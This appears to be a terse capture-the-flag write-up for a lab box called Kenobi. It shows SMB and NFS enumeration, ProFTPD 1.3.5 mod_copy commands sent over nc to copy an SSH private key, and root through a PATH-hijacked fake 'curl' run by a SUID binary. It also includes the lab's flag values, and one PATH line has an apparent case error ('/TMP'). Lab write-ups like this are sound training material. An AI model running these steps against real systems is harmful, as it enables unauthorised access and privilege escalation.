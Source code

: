 ```
Kenobi - 10.10.178.21
```

#Ports Open - 21,22,80,111,139,445,2049

#Detail of Ports
>21		ftp
>22		ssh
>80		http
>111	rpc
>139	smb
>2049	rpc

#Findings + Exploitationlooked at smb shares
>first looked at smb shares using enum4linux
>found anonymous share
>used this to get the contents of it
	smbclient //<ip>/<share_name> -u <username>
>found log.txt file with ftp,smb info
>checked for mounted disks because found port 111 had some nfs mounts
>used this to find info on it
	nmap -p <port> --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
>so we know there is a mounted folder '/var' and an exploit for 'ProFTPD 1.3.5'
>using nc connect to FTP so we can exploit
>using the exploit, use the following commands
	nc <ip> <port>
	SITE CPFR <id_rsa location>
	SITE CPTO </var/tmp>
>now mount the '/var' folder
>first create a folder in '/mnt' directory to mount at
	sudo mkdir /mnt/kenobi
>use this
	sudo mount <ip>:/var /mnt/kenobi
>now navigate to it to read the 'id_rsa'
	cat /mnt/kenobi/tmp/id_rsa
>use ssh to get in the system
>found user.txt
	d0b0f3f53b6caa532a83915e19224899
>found a binary 'menu' running
>ran strings on it to find waht its doing
>found these three commands being used
	curl -I localhost
	uname -r
	ifconfig
>so changed the curl command, gave root perms and added it to path
>use this
	cd /tmp
	echo 'cat /root/root.txt' > curl
	chmod 777 curl
	export PATH=/TMP:$PATH
	/usr/bin/menu
	1
>got ROOT!!!
	177b3cd8562289f37382721c28381f02